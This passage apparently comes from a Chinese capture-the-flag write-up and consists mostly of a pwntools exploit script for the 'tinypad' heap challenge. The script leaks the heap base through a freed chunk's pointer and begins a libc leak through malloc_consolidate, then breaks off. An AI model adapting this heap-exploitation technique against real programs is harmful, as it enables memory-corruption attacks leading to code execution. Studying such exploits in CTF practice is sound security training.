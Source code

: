 具体利用脚本如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
tinypad = ELF("./tinypad")
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
    libc = ELF('./libc.so.6')
else:
    p = process("./tinypad")
    libc = ELF('./libc.so.6')
    main_arena_offset = 0x3c4b20
log.info('PID: ' + str(proc.pidof(p)[0]))


def add(size, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('a')
    p.recvuntil('(SIZE)>>> ')
    p.sendline(str(size))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)


def edit(idx, content):
    p.recvuntil('(CMD)>>> ')
    p.sendline('e')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))
    p.recvuntil('(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil('Is it OK?\n')
    p.sendline('Y')


def delete(idx):
    p.recvuntil('(CMD)>>> ')
    p.sendline('d')
    p.recvuntil('(INDEX)>>> ')
    p.sendline(str(idx))


def run():
    p.recvuntil(
        '  ============================================================================\n\n'
    )
    # 1. leak heap base
    add(0x70, 'a' * 8)  # idx 0
    add(0x70, 'b' * 8)  # idx 1
    add(0x100, 'c' * 8)  # idx 2

    delete(2)  # delete idx 1
    delete(1)  # delete idx 0, idx 0 point to idx 1
    p.recvuntil(' # CONTENT: ')
    data = p.recvuntil('\n', drop=True)  # get pointer point to idx1
    heap_base = u64(data.ljust(8, '\x00')) - 0x80
    log.success('get heap base: ' + hex(heap_base))

    # 2. leak libc base
    # this will trigger malloc_consolidate
    # first idx0 will go to unsorted bin
```